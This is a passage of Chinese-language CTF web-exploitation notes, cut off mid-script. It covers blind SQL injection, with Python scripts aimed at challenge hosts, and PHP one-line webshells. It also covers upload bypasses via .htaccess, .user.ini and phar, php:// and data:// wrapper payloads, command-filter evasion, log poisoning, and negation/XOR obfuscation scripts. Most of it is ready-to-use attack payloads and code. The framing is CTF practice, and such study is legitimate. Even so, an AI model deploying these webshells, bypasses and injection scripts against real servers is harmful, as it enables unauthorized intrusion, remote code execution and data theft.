布尔盲注的原理是基于SQL查询返回的结果是真（True）还是假（False）。攻击者会尝试插入一些特定的SQL查询，这些查询的结果只可能是真或假。然后，攻击者会根据应用程序的响应（比如页面是否正常加载，或者页面加载的时间等）来判断这个查询的结果是真还是假。

例如，攻击者可能会尝试这样的查询：`SELECT * FROM users WHERE id = 1 AND SUBSTRING(password, 1, 1) = 'a'`。这个查询的意思是，如果id为1的用户的密码的第一个字符是'a'，那么就返回这个用户的所有信息。然后，攻击者会根据应用程序的响应来判断密码的第一个字符是否为'a'。

通过反复尝试不同的字符和位置，攻击者最终可以得到整个密码。这种攻击方法虽然比较慢，但是在服务器不返回有用错误信息的情况下，它是一种有效的攻击手段。

为了防止布尔盲注，应该始终对用户的输入进行验证和清理，避免直接在SQL查询中使用用户的输入。另外，也可以使用参数化查询或者预编译SQL语句，这样可以避免攻击者插入恶意的SQL代码。

###### 时间盲注

时间盲注(Time-based Blind SQL Injection)是SQL注入攻击的一种形式，它的原理是基于SQL查询的执行时间来推断查询的结果。

在时间盲注攻击中，攻击者会尝试插入一些特定的SQL查询，这些查询会导致数据库延迟一段特定的时间。然后，攻击者会根据响应的时间来判断查询的结果是真还是假。

例如，攻击者可能会尝试这样的查询：`SELECT * FROM users WHERE id = 1 AND IF(SUBSTRING(password, 1, 1) = 'a', SLEEP(10), 'false')`。这个查询的意思是，如果id为1的用户的密码的第一个字符是'a'，那么就让数据库延迟10秒，否则立即返回。然后，攻击者会根据响应的时间来判断密码的第一个字符是否为'a'。如果响应延迟了10秒，那么就说明密码的第一个字符是'a'。否则，就说明密码的第一个字符不是'a'。

通过反复尝试不同的字符和位置，攻击者最终可以得到整个密码。这种攻击方法虽然比较慢，但是在服务器不返回有用错误信息的情况下，它是一种有效的攻击手段。

为了防止时间盲注，应该始终对用户的输入进行验证和清理，避免直接在SQL查询中使用用户的输入。另外，也可以使用参数化查询或者预编译SQL语句，这样可以避免攻击者插入恶意的SQL代码。

##### SQL 盲注示例代码

- 可以使用示例代码的 SQL 注入语句来测试
- 盲注的意义是猜对当前 SQL 执行表中的某个字段的值（如表中有用户密码、flag 等信息）。如果该表已经透明，flag 肯定不在该表中，可能使用 sqlmap 解法可以获取到 flag

###### 猜密码

该方法用于猜密码，需要系统能提示密码正确还是错误。

```python
import requests

url='http://3d4bda8e-7eef-4853-9a8d-e0057f666d26.challenge.ctf.show/admin/checklogin.php'
s='0123456789abcdefghijklmnopqrstuvwxyz'
password=''
flag=''
# 从第1位到第17位，这里已知密码是17位数
for i in range(1,18):
    print("第"+str(i)+"位")
    for j in s:
        # 此处的 p 其实是数据库表中的密码属性名
        data={"u": f"'||substr(p,{str(i)},1)<'"+j, 
              "p": "1"}

        r=requests.post(url,data=data)

        if "密码错误"==r.text:
            password+=chr(ord(j)-1)
            print(password)
            break
        
print(password)

'''
在这个脚本中，SQL注入的语句是"||substr(p,"+str(i)+",1)<'"+j，这个语句的意思是"或者密码的第i位小于当前尝试的字符j"。如果这个语句为真，那么应用程序会返回一个"密码错误"的响应。这就是这个脚本如何知道哪个字符不在密码中的。

chr(ord(j)-1) 这个表达式是在Python中对字符进行处理的一种方式。
ord(j) 是Python的内置函数，用于返回一个字符（例如 j）的Unicode编码。例如，ord('a') 返回97。
-1 是对这个Unicode编码进行减1操作，即返回前一个字符的Unicode编码。
chr() 也是Python的内置函数，用于返回指定Unicode编码的字符。例如，chr(97) 返回 'a'。
所以，chr(ord(j)-1) 这个表达式的功能是返回字符j的前一个字符。例如，如果 j 是 'b'，那么 chr(ord(j)-1) 就会返回 'a'。
'''
```

这段Python代码是一个使用“盲注”技术的SQL注入攻击脚本。SQL注入是一种常见的网络攻击方法，攻击者通过输入恶意的SQL查询语句，试图从数据库中获取或修改数据。

这段代码的主要目标是尝试猜测一个17位的密码。这个密码保存在一个远程服务器的数据库中，服务器的URL是 `'http://3d4bda8e-7eef-4853-9a8d-e0057f666d26.challenge.ctf.show/admin/checklogin.php'`。

这个脚本使用一个字符集 `s`，包含所有的数字和小写字母。然后，它逐个尝试这些字符，从密码的第一位开始，直到第17位。

每次尝试都通过向服务器发送一个POST请求来完成。这个请求中包含一个特殊构造的数据字典 `data`，其中的 `"u"` 键对应的值是一个SQL查询语句的一部分。这个查询语句的意思是：如果密码的第 `i` 位的字符小于当前尝试的字符 `j`，则返回真（即，允许登录）。

然后，这个脚本检查服务器的响应。如果响应是 "密码错误"，那么脚本就知道它找到了密码的第 `i` 位的正确字符。这个字符就是当前尝试的字符 `j` 的前一个字符。然后，脚本将这个字符添加到 `password` 字符串的末尾，并开始寻找下一位字符。

这个过程一直持续到找到完整的17位密码为止。最后，脚本打印出找到的密码。

这是一个非常基本的SQL注入攻击脚本，它使用了一种被称为“盲注”的技术。在“盲注”中，攻击者通过观察应用程序的行为（在这种情况下，是服务器的响应）来推断出数据库中的信息。这种攻击通常比较慢，因为需要逐个字符地猜测信息。

###### 猜 flag

- 该方案用于已数据库的两个返回内容，如知道 id=1 和 id=2 的返回内容，通过 id 的填充值来注入。
- 条件：需要查询的值就在这张表中的一个属性里

例题：https://www.ctfer.vip/problem/1

```python
#buuctf web Hack World
import requests

 
url = "http://3bdb8fd8-acb8-4230-96d0-3845226525ba.node4.buuoj.cn:81/index.php"
flag = ""
i = 0
 
 
while True:
    i = i + 1
    letf = 32
    right = 127
    while letf < right:
        mid = (letf+right) // 2
        # 此处 正确返回1、错误返回2 是依靠的原题目，原题目表单只有输入1和2有返回值，只能查询id是1或2的内容（判断为真返回id为1的内容，为假返回id为2的内容）。id=1的内容中包含了Hello。注意此处已知表名flag和属性名flag
        payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"
        data = {"id":payload} 
        res = requests.post(url=url, data=data).text
        # 不同的题目此处判断条件不同。该题目为true时内容中有hello(id=1的内容)
        if "Hello" in res:
            letf = mid + 1
        else:
            right = mid
    if letf != 32:
        flag += chr(letf)
        print(flag)
    else:
        break
```

这是一段 Python 代码，它使用了二分查找和 SQL 注入的方式来从目标网站的数据库中获取 "flag"。这是一种常见的 CTF（Capture The Flag）比赛中的网页安全挑战。以下是对这段代码的详细解释：

1. `import requests`：导入 Python 的 `requests` 模块，它是一个用于发送 HTTP 请求的库。

2. `url = "http://3bdb8fd8-acb8-4230-96d0-3845226525ba.node4.buuoj.cn:81/index.php"`：这是目标网站的 URL。

3. `flag = ""`：初始化一个空字符串，用于存储查询到的 flag。

4. `i = 0`：初始化一个计数器，用于记录当前正在获取 flag 的哪个字符。

5. `while True:`：开始一个无限循环，直到找到所有的 flag 字符或遇到错误。

6. `letf = 32` 和 `right = 127`：设置 ASCII 值的搜索范围，这个范围涵盖了大部分可打印的字符。

7. `mid = (letf+right) // 2`：计算搜索范围的中点。

8. `payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"`：构造 SQL 注入语句，这个语句会获取 flag 的第 `i` 个字符的 ASCII 值，并检查它是否大于 `mid`。

9. `data = {"id":payload}`：将 SQL 注入语句放入 POST 请求的数据中。

10. `res = requests.post(url=url, data=data).text`：发送 POST 请求并获取响应文本。

11. `if "Hello" in res:`：检查响应文本中是否包含 "Hello"，这可能是根据网站的具体行为来判断 SQL 语句的结果。

12. `letf = mid + 1` 或 `right = mid`：根据响应来调整搜索范围。

13. `if letf != 32:`：如果找到的 ASCII 值不是 32（空格字符），那么将其添加到 flag 中。

这个脚本的基本思想是通过发送特制的 SQL 语句来获取数据库中的数据，这是一种常见的网络攻击技术。在这个脚本中，攻击者使用二分查找的方式来猜测每个字符的 ASCII 值，这种方式比直接猜测每个可能的 ASCII 值要快得多。

### SQL 约束攻击

#### 加一个空格，SQL 查询不会变
- 在SQL中执行字符串处理时，字符串末尾的空格符将会被删除。换句话说“vampire”等同于“vampire ”，对于绝大多数情况来说都是成立的（诸如WHERE子句中的字符串或INSERT语句中的字符串）例如以下语句的查询结果，与使用用户名“vampire”进行查询时的结果是一样的。

```sql
SELECT * FROM users WHERE username='vampire     ';
```

### SQL 语法

- 表名为数字时，要用反引号包起来查询。如

  ```sql
  0'; show columns from `1919810931114514 `; #
  ```

  

## 代码注入

- `/etc/passwd` 是一个在 Unix 和类 Unix 系统中的系统文件，用于存储所有用户的基本信息。可以用该文件来测试 Web 网站是否暴露了目录。（有时候网站暴露的目录只能用相对路径访问，如 ../../../../etc/passwd）
- 题目中给出的文件名可能总是有用的，想办法将题目给出的文件都读取到

### PHP

- index.php 的默认路径是 /var/www/html/index.php
- 拿到 shell 后，要考虑 flag 可能在一个文件中，也可能在环境变量 `env` 中
- 看到类似 ?id=1 的 url，无论是不是一个正常页面，可以联想到注入（尤其可以联想到伪协议）
- 网页上显示的未必是真实源码，如果题目过滤了网页中代码没显示的字符，应该联想到网页中代码不真实。寻找真实源码或其他突破口
- 即便是代码审计的题，也要有看源码和 HTTP headers 的习惯
- include('index.php') 后的文件未必会显示在前端，只有 echo 后才会显示到前端。（如果使用**伪协议**，就会显示文件内容，不会把文件当作 php 调用，**读文件应该优先选择伪协议**）
- 使用 include 包含文件时，如果不显示文件内容，记得使用伪协议。伪协议往往是 `php://` 开头，如果正则表达式只允许 `php` 开头，首先想到伪协议 
- 看到 PHP 返回内容是 HTTP Headers，可以联想到 %00截断
- 如果服务器开放了 HTTP PUT 方法，可以使用  `curl -X PUT -d '<?php eval(@$_POST['a']); ?>' http://x/b.php` 注入 `b.php` 文件（如果没有任何安全设置，**'PUT请求用于更新资源，如果资源不存在，可能会创建新的资源'** 这个原则会写入文件到服务端【真实场景几乎不会遇到此漏洞】）
- GET 方法传参的代码审计题，如果 `system('ls')` 注入不了[可能被过滤了，或者题目只给了只读权限，蚁剑的连接不一定只靠 `system`]，可以试试 `eval($_POST["a"]);`，**善用蚁剑来连接**
- 如果 `system` 命令执行了没反应，可能在 `phpinfo` 中被 `disable_functions` 绕过，可以取反访问下 `phpinfo`
- SSRF
  - 常用套路 `file:///etc/password`; `file:///var/www/html/index.php` ; `file:///flag; glob:///*` 读取根目录下的所有文件; `glob:///fl*` 读取根目录下 fl* 开头的文件
  - 培养目录提权思维，如果一道题本身禁止访问 /flag.php，可以通过参数构造地址的方法 (类似 `http://127.0.0.1/flag.php`) 来访问。curl_setopt() 函数就类似 Python 的 requests，可以访问外部或内部地址（正则绕过：`localhost`、`0`、`127.0.0.x 、127.0.1、127.1`、`127.0.0。1`、`sudo.cc`）
  - 如果网站使用无密码 MySQL、Redis，可以考虑用 Gopherus 实现 RCE 注入


#### PHP 绕过普通正则表达式的基本替代符

- ${IFS} 和 %09（tab键的url编码）和 < (输入重定向) 用于替换空格。如果{}被过滤，还可以用 $IFS$9 来进行空格绕过，$9 会被识别为空字符

- $@ 和 %27%27 替代空字符串

- Linux 中分号 (`;`) 被过滤，使用其他管道符 `|`、`&`、`||`、`&&`，或使用换行符 `%0a `

- 善于使用正则表达式没有同时匹配大小写，但 PHP 对大小写字母不敏感的特性绕过

- 正则多行绕过，使用 `%0Aflag` (`%0A` 是换行符) 绕过 `preg('/^(.*)flag(.*)$/'', $_GET['aaa'])` (因为该正则表达式不会匹配换行符，若要匹配换行符，应改为 `preg_replace('/^(.*)level(.*)$/s', $_GET['aaa'])`)  [`s` 是匹配多行]。注意，在文本编辑器中对 `\n` 进行 URL 编码会得到错误答案 `%5Cn` (只是将 \ 和 n 两个字符编码的结果)，文本编辑器中应该将回车符 (按 Enter) 编码。
  - HTTP GET 方法的 `#` 必须被编码为 %23 再发送，因为 `#` 这部分通常由浏览器处理，不会发送到服务器

- 如果 ; 被过滤，可以用 ?> 代替

- 当 system('ls'); 被绕过时，可以用 passthru("ls"); 代替。再提供一种思路，除了用 system 外，还可以直接 show_source('flag.php')、highlight_file('flag.txt')、file_get_contents('flag.txt')

- `printf('a')` 用于替代 `echo('a')` ; ```printf(`ls`)``` 用于替代 `system('ls')`

- Linux 命令绕过

  当 `cat` 被绕过，用 `tac` 替代【还有 more、less、head、tail、nl、sed、sort、uniq、rev 等】

  `ls` 可用 `dir`、`l's'`、`l\s` 替代（如果遇到其他命令被过滤，也可以像这样用 `'` 或 `\` 来绕过）【 `cat` 用 `c\at` 替代，而不是 `ca\t` ，因为 `\t` 是 `tab` 的转义字符。也可以使用 `c''at`、`c""at` 绕过】

  `flag` 绕过: `f*`、` fl?g`、` [e-g]lag`, `a=fl;b=ag;cat $a$b`

  用 `+` 代替空格

  写入文件的命令  `ls > 1.txt`  用  `ls | tee 1.txt`  替代。其中 `>` 是覆盖写入，`tee` 是追加写入

- 如果 127.0.0.1 被过滤，可以使用 sudo.cc 替代。127.0.0.1 还可以写成 127.1    。http://0.0.0.0 可以写成 http://0 (上面 SSRF 的短总结写了所以过滤)

#### 文件漏洞

- 在做题的时候尽量多试几个题目的提示后缀​（如 index.php、source.php）

##### 上传
- 如果上传到当前目录没用权限，可以尝试上传到 `/tmp` 目录。`/tmp`目录对于所有用户都是可写的，这意味着任何用户都可以在该目录中创建和修改文件

- 一般来说，题目可能过滤文件类型、文件后缀、文件头等

- 需要注意下，有时候后端是通过 HTTP Headers 的 content-type 来判断文件类型的，改了 content-type 即可绕过。（在 Brup 中，只用改 ------WebKit 下方的 content-type）遇到过一道题，上传类型必须用 image/jpeg，用 jpg 和 png 都不行（具体看题目怎么绕过的，实测 jpeg 最通用）。

- 如果看不懂前端验证，可以改成图片格式后用 Burp 传上去，再用 Reapter 将文件后缀改为 PHP 传上去

- 如果 [] 被过滤了，可以用 {} 替代？？

- flag 不仅可以藏在文件中，还可以藏在环境变量中，在终端输入 `env` 查看环境变量

- 如果 php 后缀被绕过，可以尝试 php3|php5|php7|phtml|pht (这些后缀可能被设置识别为 php)

- 文件内容中，如果 `file` 被绕过，增加 `\` 并换行即可，如

  ```
  fil\
  e_get_content
  ```

###### test.php

- 注意，一句话木马如果发送 POST 方法，payload 的键是 POST 的参数（如下面例一中的 `a`，如 payload: `a=system('ls');`。如果使用蚁剑连接，密码也是 `a`）

- 有的题需要修改 Content-Type 为 image/jpg 绕过，如果不行，则改成 **image/jpeg**
- 如果服务器开放了 PUT 方法，还可以使用  `curl -X PUT -d '<?php eval(@$_POST['a']); ?>' http://x/b.php` 注入 `b.php` 文件

1.编辑 PHP 文件内容:

```php
<?php eval(@$_POST['a']); ?>
```
或者，用这段代码的缩减版

```php
<?= eval($_POST['a']);?>
```

2.将该文件上传到服务器(连接地址就是该文件路径，密码是上面输入的'a')

3.使用中国蚁剑连接该文件即可

(如果不成功，考虑绕过，试试 test.phtml 方法)【注意，有时候后端检测了文件中的内容，有 <? 就上传不了，可以考虑下面的方法 】

###### test.phtml

```html
<script language='php'>@eval($_POST['a']);</script>
```
###### .htaccess 防止绕过 php

- 该方法旨在指定图片文件为可执行的 php 文件
- `.htaccess` 还可以修改(覆盖) php 的默认配置

如果服务端禁止上传 php，可以将 php 改为图片格式 (如 png) 欺骗服务器，再使用 .htaccess 将 png 指定为 php 文件执行。(需要注意下，传图片需要确保 HTTP Headers 的 content-type 为 image/jpeg，目前知道 .htaccess 支持 Nginx 和 Apache)

.htaccess 文件内容

```c
<FilesMatch "a.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

然后访问上传的 php 文件（a.png）即可

 ###### 更进一步的 .user.ini 绕过

- 该方法旨在向已有的 php 文件注入攻击代码

首先上传 .user.ini 文件（配合 Burp 的 Reapter，把 Content-Type: application/octet-stream 修改为 Content-Type: image/jpg）

GIF89a 是图片的文件头，用于绕过服务端判断

原理：

1. .user.ini 文件：在 PHP 5.3.0 版本以后，引入了一个新的特性，用户可以在每个目录下面放置一个名为 ".user.ini" 的文件，这个文件中可以包含一些 PHP 的配置项，这些配置项会影响到当前目录以及子目录中的 PHP 执行环境。这就为我们提供了一个可能的攻击点，如果我们能够上传一个 ".user.ini" 文件，并在其中设置一些特定的配置项，那么我们就可能对服务器的 PHP 执行环境进行修改。
2. auto_prepend_file 配置项：这是 PHP 的一个配置项，它的作用是在 PHP 解析器处理每个 PHP 文件之前，都会先处理这个配置项指定的文件。也就是说，如果我们在 ".user.ini" 文件中设置了 auto_prepend_file，那么这个设置的文件会在所有的 PHP 文件之前被执行。
3. 在"a.jpg"文件的开头添加"GIF89a"头部，使得这个文件在视觉上表现为一张正常的 JPG 图像，但实际上包含了恶意的PHP代码。

【PS: macOS 的访达中按住 `command + shift + .` 显示隐藏文件】

.user.ini

```
GIF89a
auto_prepend_file=a.jpg
```

编辑和上传 a.jpg 文件（注意和前一步一样，Content-Type 为 image/jpg）

```php
GIF89a
<?= eval($_POST['a']);?>
```

示例上传位置为 `uploads/a.jpg`，然后用蚁剑连接 `uploads/index.php` 文件即可，密码是 `a`。

(经测试，a.jpg 必须在 .user.ini 之后上传)

###### 构造 phar

- 漏洞突破口：`include()` 或 `file_get_contents()` 。（服务端往往对我们是不可见的，可以用 `phar` 来测试找到的 GET 或 POST 参数） 

下面代码会生成一个 example.phar 的文件

```php
<?php
    $payload = '<?php eval($_POST["a"]); ?>'; //一句话木马
    $phar = new Phar("example.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->addFromString("67.php", "$payload"); //添加要压缩的文件
    // $phar->setMetadata(...); //在metadata添加内容，可参考 phar反序列化，此处用不着，故注释
    $phar->stopBuffering();
?>
```

上传上述代码生成的 example.phar，用蚁剑连接 `http://x/?a=phar://example.phar/67.php` 即可（`67.php` 是构造 phar 时压进去的内容是 `<?php eval($_POST["a"]); ?>`）

**注意：把 `example.phar` 更名为 `example.zip` 或其他后缀仍然可行**

##### 伪协议

- 网页上显示的未必是真实源码，如果题目过滤了网页中代码没显示的字符，应该联想到网页中代码不真实。也许题目只过滤了 flag.php，并没有过滤 index.php
- 当伪协议做不出来时，一定要想到 [Nginx 日志](######Nginx 日志文件，通过修改 User-Agent 执行 php 代码)

```
问：PHP 中为什么 include('flag.php') 不显示内容，但是 include('php://filter/convert.base64-encode/resource=flag.php') 会显示内容？

答：在 PHP 中，`include('flag.php')` 语句会执行 `flag.php` 文件中的 PHP 代码。如果 `flag.php` 文件中没有任何输出（例如，echo 或 print 语句），那么你不会在浏览器中看到任何内容。

另一方面，`include('php://filter/convert.base64-encode/resource=flag.php')` 语句使用了 PHP 的流过滤器。`php://filter` 是 PHP 的一种特殊的流封装协议，它允许你使用 PHP 的流过滤器处理数据流。

在这种情况下，`convert.base64-encode` 过滤器被应用于 `flag.php` 文件的内容。这个过滤器会将文件内容编码为 Base64，然后输出。这意味着你会看到 `flag.php` 文件内容的 Base64 编码形式，而不是执行 PHP 代码。
```

###### convert.base64-encode

适用于 eval()、include()

```url
http://xxx/?p=php://filter/convert.base64-encode/resource=flag.php
```

- 更难的 (绕过 preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)))。**看到正则表达式绕过了 ; 就要联想到该方法，该方法的核心是 ?> 代替 ; ，表示接下来的语句是最后一条语句。

- ```
  http://xxx/?p=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
  # php语句中的;可以用?>代替(表示最后一个语句)
  
  # 通过使用 http://xxx/?c=include%0a$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php，我们可以看到这里传递给 c 变量的值是 include $_GET[1]，而 1 变量的值为 php://filter/convert.base64-encode/resource=flag.php。
  # 此时，include 语句将会加载 php://filter/convert.base64-encode/resource=flag.php 文件，并将其转换成 base64 编码形式后输出。由于此时 c 变量的值只是一个 include 语句，因此不会触发正则表达式中的任何敏感词匹配，从而成功绕过了安全措施。
  
  
  # 在此基础上，如果数字也被绕过，改为如下：
  http://xxx/?p=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
  # 这段命令正则表达式只能检测 include$_GET[a] 部分，后面的部分是传进来的
  
  # 继续 如果 < 和 > 被过滤了，再来一个无括号版的
  http://xxx/?p=include $_GET[a];&a=php://filter/read=convert.base64-encode/resource=flag.php
  ```

注释：使用 ?file=flag.php 读取文件可能会因为权限不足而无法读取到内容。因为有些 Web 服务器，如 Apache，会对目录或文件设置访问权限。如果当前用户没有足够的权限来读取 flag.php 文件，则无法读取到该文件的内容。而使用 ?file=php://filter/convert.base64-encode/resource=flag.php 可以绕过这些权限限制，因为 PHP 脚本本身具有读取文件的权限，它可以打开并读取任何一个它拥有的文件。通过将读取到的文件内容转换成 base64 编码后输出，即使该文件是二进制或包含特殊字符，也可以正确地输出文件内容，因此能够获取 flag。

###### convert.iconv.utf8.utf16 及其他

前一种方法不行的情况下，有时候该方法行得通

```
php://filter/convert.iconv.utf8.utf16/resource=flag.php
```

此外还有

```
php://filter/convert.iconv.utf-8.utf-7/resource=flag.php
```

- 其中convert.iconv.utf-8.utf-7表示把内容由utf-8编码转到utf-7编码，其他的同理。具体还有哪些可以通过php官网

```
php://filter/read=string.rot13/resource=flag.php
```

- 该编码会自动进行 rot13 编码

###### text/plain

适用于 include()

```url
http://xxx/?p=data://text/plain,<?php system("ls");?>
```

然后，使用

```
http://xxx/?p=data://text/plain,<?php system('cat flag.php');?>
```

有时候还是被过滤了，就将 <?php system('cat flag.php');?> 转为 base64:

```
http://xxx/?p=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
# 当使用数据流协议 data:// 时，可以通过 base64 编码的方式来直接传递数据，而不需要引用外部文件
```

###### 执行 system

方法一

```url
http://xxx/?page='.system("cat ./templates/flag.php").
```
方法一不行的话，用方法二
```url
?p=system('cat flag.php | base64')
```
原因：
在某些服务器上，执行 system('cat flag.php') 命令将会返回一个空字符串，而不是预期的 flag.php 文件内容。这是因为在 shell 中，管道符 | 表示将前一个命令的输出作为后一个命令的输入。由于执行 system() 函数时，标准输出通常不被捕捉，因此无法获取 cat flag.php 的输出，并且 $a 将被设置为空字符串。
相反，system('cat flag.php | base64') 命令将会将 flag.php 文件内容进行 base64 编码，然后将编码结果作为字符串返回。由于 base64 编码只使用 ASCII 字符集，可以保证其在 PHP 脚本中的可靠性，并且可以从 $a 中获取到正确的返回值。

另外的示例：

用 || 和 < 分别绕过 Linux 命令和空格。如果题目本来要执行一个 ping 或其他命令，可以这样绕过：

```
http://xxx/?c=tac<fla%27%27g.php||
# 只有当 || 左边的内容执行失败时，才会执行右边。%27%27 代表 '' 空字符串，可以绕过正则的 flag 匹配
# 等效于 ?c=tac<fla''g.php||    , Linux 在 tac 输出时会忽略 ''
```

###### GET 方法注入字符串到文件流 (还可以注入指令)
将字符串 hello ctf 注入文件流 file

```url
http://xxx/?file=data://text/plain,hello ctf
```

注意：上述链接的 `,` 和 `hello` 之间不要有空格

还支持嵌套 php 代码

```
http://xxx/?file=data://text/plain,<?php system('ls'); ?>
```

###### POST 方法注入字符串到文件流 (还可以注入)

- php://input 实际作用是直接访问原始的请求体数据，而不是经过 PHP 解析后的表单数据。（也就是获取 html 表单的原始字符串）

适用于 file_get_contents()、include()

> POST 中，GET 方法的一个参数值是 php://input ，POST 中提交纯字符串可作为该参数的值（用于破解 PHP 读文件[如 file_get_contents]，此处可以自己构造文件内容）
>
> 如果小写 php 被绕过，可以用 Php://input
```
http"//xxx/?file=php://input
post data:<?php system("ls /"); ?>
# 此处的 POST 只传字符串(不是键值对)
```

##### 直接访问服务器目录

- 部分服务器会暴露本地路径，可以直接在 url 处构造路径访问

###### Nginx 日志文件，通过修改 User-Agent 执行 php 代码

- 这种方法也可以注入一句话木马，连接 `http://xxx/?file=/var/log/nginx/access.log` 该文件即可

如果 php://input 都被过滤，可以考虑此方法

有时候题目代码没有明示，但测试下来 system() 等这些函数都用不了，则可以尝试该方法

例如

```
访问 http://xxx/?file=/var/log/nginx/access.log
修改 User-Agent 的值为 Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) <?php system('ls');?>Gecko/20100101 Firefox/56.0 
# 此处会执行中间插入的代码 <?php system('ls');?> 。（可能要访问2次才会显示，结果可能返回在 html 源码中）
```

###### 文件协议

> 用于url是重定向的情况

```
http://xxx/?url=file:///var/www/html/flag.php
```

###### include 函数的特性

> 查找 ../../../../ffffllllaaaagggg 文件

```
http://xxx/source.php?file=hint.php?../../../../../ffffllllaaaagggg
```

##### PHP SSIT 漏洞

- 遇到了模版如 Smarty，很大概率是 SSIT 漏洞

###### 注入方法一

遇到一道题，ip 由 `X-Forwarded-For` 的传入值来渲染，则通过 `X-Forwarded-For` 来注入

```
X-Forwarded-For={system('cat /flag')}
```

###### 注入方法二

- 方法一的注入更简洁

POST 参数为 data:

```
data={if system('ls')}{/if}
```


###### 提交 POST

```
用户名 <!--#exec cmd="ls ../"-->
密码 123123 (输入正确密码)
```

##### ThinkPHP 注入漏洞

- ThinkphpGUI 有一个坑，该工具执行命令时并不能区分目录和文件，需要手工鉴别。

使用 https://github.com/Lotus6/ThinkphpGUI 查询漏洞（文件备份在 `/Users/Cyberbolt/Library/CloudStorage/OneDrive-个人/编程/CTF/工具/PHP渗透/ThinkphpGUI-1.3-SNAPSHOT.jar` ，适用 `java -jar ThinkphpGUI-1.3-SNAPSHOT.jar` 运行）

方法：

1.选择 All 后查询


2.选择有漏洞的版本，执行 shell 命令，如图


#### 绕过复杂的正则表达式（RCE 类型之一）

- 可以使用取反来构造一句话木马，详细见取反

> 查看 flag.php 的一种冷门方法

```
http://xxx/?p=uniq${IFS}f???.php
```

> 如 preg_match("/[A-Za-z0-9]+/",$code)

##### 无数字字母绕过情况一

条件: 

- 题目不允许数字和字母输入
- 需要能直接执行命令，如 `system()` ，而不是 `eval()` 。因为题目不允许输入字母，system 有字母
- 可以试试使用 `` 来执行命令

###### 利用通配符

可以尝试

```bash
/???/??? /????.???
```

因为linux里面匹配是从a开始匹配的的，并且只要匹配的命令没有报错的情况下，会把所有的可能都执行一遍。如果我们输入/???/???，那么他可能匹配/bin/axx，或者/bin/bxx。(包括 /bin/cat)。

所以利用通配符这种方法虽然可以使用，但是和靶机的命令集有很大的关系。

###### 利用临时文件

原理：如，我们有一个文件 /a.txt

```
ls
```

虽然该文件不是可执行文件，Linux 中可以直接使用 `. /a.txt` (`.` 后面必须跟绝对路径) 来执行文件中的 `ls`

当我们强制为 php 页面上传文件时，会在 `/tmp` 目录下生成临时文件。并且文件名格式为 `phpxxxxxx`  其中的x的范围是大小写字母，即php+6位随机大小写字母。(这个文件会在很短的时间内被删除)

但是我们可以使用 Python 脚本，在上传文件的同时执行这个文件

```python
import requests 
url="http://1.15.153.196:7001/rce7/?cmd=. /???/????????[@-[]"
# file 是表单的键，可能不是这个名字
files={"file":('1.png','ls','image/png')}
r = requests.post(url,files=files)
print(r.text)
```

##### 取反

- 一句话木马：由于 `eval` 不是 PHP 函数，取反构建一句话木马时必须使用 `assert`，如图:

   

  构造出来的链接可能浏览器无法访问，但是未必蚁剑不能连接

需要没过滤符号: `~`

###### 构造取反 url 的通用脚本 (最简方法)

```python
def action(s):
    k=''
    for j in s:
        i = ord(j)
        b = bin(i)[2:]
        if len(b)%4!=0:
            b=(4-len(b)%4)*'0'+b
        t=''
        for l in b:
            if l=='1':
                t+='0'
            else:
                t+='1'
        fin = hex(int(t,2))
        fin=fin.replace('0x','')
        k+=('%'+fin.zfill(2))
    return "(~"+k+")"
while True:
    param=action(input("\n[+] your function：") )+action(input("[+] your command："))
    print(param+';')
```

运行方法如下:



###### 取反通用方法

如需执行 `eval($code);`

首先对 system 取反

```php
<?php
$a="system";
echo "~" . urlencode(~$a) . "\n";
?>
```

得到

```
~%8C%86%8C%8B%9A%92
```

再对 ls 取反

```php
<?php
$a="ls";
echo "~" . urlencode(~$a) . "\n";
?>
```

得到

```
~%93%8C
```

构造 system('ls'); 如下

```
?code=(~%8C%86%8C%8B%9A%92)(~%93%8C);
```

PS：不用深究上面的字符串为什么会被正确执行，这是 PHP 解释器的运作机制，学会该用法即可。

###### 取反执行某个函数

取反后 得到不可读的打印串，再将 url 编码
```php
<?php
$c='phpinfo';
$d=urlencode(~$c);
echo $d;
?>
# 返回：%8F%97%8F%96%91%99%90
```

访问 url

```
(~%8F%97%8F%96%91%99%90)();
```

###### 取反连接蚁剑

> 通过构建 assert（eval(_POST[1])）来使蚁剑连接

```php
<?php
error_reporting(0);
$a='assert';
$b=urlencode(~$a);
echo '(~'.$b.')';
$c='(eval($_POST[1]))';
$d=urlencode(~$c);
echo '(~'.$d.')';
?>
# 得到 (~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%D6)
```
再访问 url
```
http://xxx/code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%D6);
```

##### 异或

需要没过滤符号: `^`

需要两个脚本文件 (`异或绕过.php`、`xor_rce.py`)，在同一个目录中，从现在开始构建

脚本1: 异或绕过.php

该脚本用于生成 `xor_rce.txt`，目的是为了排除正则表达式 `$preg = "/[0-9]|[a-z]/i"` 以外的字符，根据具体的题目**修改**正则表达式即可

```php
<?php
// 根据不同的题目，修改这个正则表达式（一般直接复制题目中的正则过来即可）
$preg = "/[0-9]|[a-z]/i";
  
$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
